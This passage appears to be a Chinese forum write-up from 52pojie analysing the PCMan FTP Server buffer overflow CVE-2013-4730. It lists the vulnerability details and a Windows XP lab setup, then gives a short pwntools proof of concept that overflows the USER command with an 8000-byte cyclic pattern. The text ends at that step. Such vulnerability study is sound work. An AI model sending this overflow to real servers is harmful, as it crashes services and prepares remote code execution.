 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [www.52pojie.cn](https://www.52pojie.cn/thread-1416459-1-1.html) ![](https://avatar.52pojie.cn/data/avatar/001/67/46/23_avatar_middle.jpg)hqz66  

PCMan FTP Server 缓冲区溢出 CVE-2013-4730 漏洞分析
=========================================

一、漏洞信息
------

### 1. 漏洞简述

*   漏洞名称：PCMan FTP Server 远程缓冲区溢出
*   漏洞编号：CVE-2013-4730
*   漏洞类型：缓冲区溢出
*   漏洞影响：远程代码执行
*   利用难度：Easy
*   详细信息：[https://www.exploit-db.com/exploits/26471](https://www.exploit-db.com/exploits/26471)
    
    ### 2. 软件概述
    

PCMan FTP Server 用于打开 ftp 服务，用于上传文件和管理有线及无线设备的软件

二、漏洞复现
------

### 1. 环境搭建

*   靶机环境：Windows xp sp3
    
*   靶机配置：
    
    *   PCMan FTP Server 2.0.7
    *   windbg
    *   mona
*   攻击机：kali 2.0
    
*   攻击机配置：
    
    *   pwntools
    *   metasploit

### 2. 复现过程

在靶机中运行 PCMan FTP，确保 21 号端口已打开，用 windbg 附加程序

![](https://attach.52pojie.cn/forum/202104/13/155302v1m9pw1lyz0wz9ls.png)

由漏洞的 exploit 可以得知 USER 字段存在溢出漏洞，编写 poc 并在 kali 中运行测试

```
from pwn import *
context(log_level="debug")
io = remote("192.168.112.146", 21)
print(io.recv())
#使用pwntools的cyclic函数构造唯一子串序列
fuzz = flat("USER ", cyclic(8000))
io.sendline(fuzz)
print(io.recv())

```
